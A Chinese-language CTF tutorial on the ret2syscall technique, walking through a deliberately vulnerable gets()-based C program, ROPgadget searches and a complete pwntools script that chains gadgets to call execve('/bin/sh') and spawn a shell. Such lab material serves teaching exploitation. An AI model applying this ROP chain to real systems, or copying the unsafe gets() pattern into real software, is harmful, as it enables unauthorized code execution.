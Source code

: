 ```yaml
---
title: ret2syscall攻击技术示例
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


## 什么是ret2syscall

ret2syscall即return to system call，与ret2text和ret2shellcode类似，即在返回地址处进行*系统调用*，关于系统调用，可以阅读维基百科上的相关介绍——[系统调用](https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8)

> Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数。操作系统实现系统调用的基本过程是：
> 1. 应用程序调用库函数（API）；
> 2. API 将系统调用号存入 EAX，然后通过中断调用使系统进入内核态；
> 3. 内核中的中断处理函数根据系统调用号，调用对应的内核函数（系统调用）；
> 4. 系统调用完成相应功能，将返回值存入 EAX，返回到中断处理函数；
> 5. 中断处理函数返回到 API 中；
> 6. API 将 EAX 返回给应用程序;
>
> 应用程序调用系统调用的过程是：
> 1. 把系统调用的编号存入 EAX；
> 2. 把函数参数存入其它通用寄存器；
> 3. 触发 0x80 号中断（int 0x80）。

## ret2syscall示例代码

``` c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```

本节示例的漏洞程序可以从此处下载：[ret2syscall](http://od7mpc53s.bkt.clouddn.com/ret2syscall)
## 漏洞分析

那么我们现在要通过系统调用执行以下命令获得一个shell
``` c
execve("/bin/sh", NULL, NULL)
```

那么很明显，我们需要完成的目标有如下：

* 获得execve的系统调用号
* 将execve的系统调用号赋给eax寄存器
* 将第一个参数"/bin/sh"的地址赋值给ebx寄存器
* 第二个参数NULL赋值给ecx寄存器
* 第三个参数NULL赋值给edx寄存器
* 触发 0x80 号中断(int 0x80)

关于各个函数的系统调用号，我们可以根据这个手册进行查询：[Linux Syscall Reference](http://syscalls.kernelgrok.com/)

我们可以查到execve的系统调用号为*0x0b*，而在系统调用时，eax是存放系统调用号，ebx,ecx,edx分别存放前3个参数，esi存放第4个参数，edi存放第5个参数，而Linux系统调用最多支持5个单独参数。如果实际参数超过5个，那么使用一个参数数组，并且将该数组的地址存放在ebx中。

那么我们如何将参数传递给各个寄存器呢？其实这里是利用到了 *ROP(Return-oriented programming)* 攻击技术，其实这是一种常见的代码复用技术，通过使用程序已有的机器指令(称之为gadget，注意，是机器指令)，来劫持程序控制流。

那么我们接下来就进行演示吧。我通常使用*ropgadget*来帮助搜索gadgets

首先是控制eax的gadget

``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

这里我们选择使用`pop eax ; ret`控制eax寄存器

```bash
0x080bb196 : pop eax ; ret
```

同理我们选择了下面这条gadgets，可以一次控制3个寄存器
``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx' | grep 'ecx' | grep 'edx'
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```
接下来我们要查询`"/bin/sh"`以及`int 0x80`的地址

``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --string "/bin/sh"
Strings information
============================================================
0x080be408 : /bin/sh
➜  ret2syscall ROPgadget --binary ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```


通常我们gadget的利用方法是`address of gadget + param for register`，那么接下来我们可以构造对应参数进行系统调用

## 攻击代码

``` python
#encoding:utf-8
from pwn import *

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh = 0x080be408
int_0x80 = 0x08049421

payload = 'A' * 112#用以往定位偏移的方法得到
payload += p32(pop_eax_ret) + p32(0x0b)
payload += p32(pop_edx_ecx_ebx_ret) + p32(0x00) + p32(0x00) + p32(bin_sh)
payload +=p32(int_0x80)

io = process('ret2syscall')
io.sendline(payload)
io.interactive()
```

这样我们就通过控制寄存器传入参数，模拟了系统调用执行`execve("/bin/sh", NULL, NULL)`的过程
